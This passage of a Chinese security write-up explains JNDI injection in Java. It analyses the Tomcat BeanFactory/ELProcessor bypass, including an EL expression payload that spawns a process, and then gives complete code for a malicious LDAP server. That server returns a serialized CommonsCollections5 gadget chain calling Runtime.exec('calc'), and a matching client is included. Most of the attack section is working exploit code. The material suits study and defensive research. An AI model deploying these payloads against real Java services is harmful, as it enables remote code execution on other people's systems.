

得到的beanClassName即为`ELProcessor`，通过类加载器进行类加载



实例化beanClass，从Reference对象的addrs参数集合中获取其 addrType 是 forceString 的参数赋值给value



value进行逗号分隔并遍历，等号（`=`）作为分隔符拆分键值对

这时候对forced进行put操作，键是param为x，值是beanClass通过反射获取的名为eval的Method

接着取出其他`RefAddr`



获取x对应的值，即名为eval的Method。

也就是执行了`ELProcessor#eval(value)`，解析EL表达式

`"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()")`



由上可知，method.invoke的触发对象需满足：

* 有无参构造器（`beanClass.getConstructor().newInstance()`调用无参构造器）
* 有一个可利用的方法，且该方法接收且只接收一个String类型参数（valueArray是String类型的数组，只有一个元素）

本地利用的调用栈：

> InitialContext#lookup()
>   RegistryContext#lookup()
>     RegistryContext#decodeObject()
>       NamingManager#getObjectInstance()
>           objectfactory = NamingManager#getObjectFactoryFromReference()
>                   Class#newInstance()  //-->恶意代码被执行
>      或:   objectfactory#getObjectInstance()  //-->恶意代码被执行

## ldap返回序列化对象

```xml
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>3.1.1</version>
</dependency>
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>
```

Server：CC5

```java
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URL;
import java.util.HashMap;
import java.util.Map;

public class Server {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) throws Exception{
        String[] args=new String[]{"http://127.0.0.1/#calc"};
        int port = 1389;

        InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
        config.setListenerConfigs(new InMemoryListenerConfig(
                "listen",
                InetAddress.getByName("0.0.0.0"),
                port,
                ServerSocketFactory.getDefault(),
                SocketFactory.getDefault(),
                (SSLSocketFactory) SSLSocketFactory.getDefault()));

        config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
        InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
        System.out.println("Listening on 0.0.0.0:" + port);
        ds.startListening();
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }


        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws Exception {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }

            e.addAttribute("javaSerializedData",CommonsCollections5());

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }

    private static byte[] CommonsCollections5() throws Exception{
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[]{}}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[]{}}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
        Map map=new HashMap();
        Map lazyMap=LazyMap.decorate(map,chainedTransformer);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(lazyMap,"test");
        BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException(null);
        Field field=badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException,tiedMapEntry);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();

        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(badAttributeValueExpException);
        objectOutputStream.close();

        return byteArrayOutputStream.toByteArray();
    }

}
```

Client：

```java
import javax.naming.InitialContext;

public class Client {
    public static void main(String[] args) throws Exception {
        String url = "ldap://127.0.0.1:1389/calc";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }
}
```

------

**Analysis**
`LdapCtx#c_lookup`  =>  decodeObject  =>  deserializeObject



# 0x05 Article To Learn

[JNDI注入之略微学学 | Y0ng的博客 (yongsheng.site)](http://www.yongsheng.site/2022/07/18/JNDI-attack/)

[跳跳糖社区-JNDI注入分析](https://mp.weixin.qq.com/s/khc-2oyNOA7-MeB0COl31g)

> **工具**
>
> * [JNDI-Injection-Bypass](https://github.com/welk1n/JNDI-Injection-Bypass)
> * [marshalsec](https://github.com/mbechler/marshalsec)
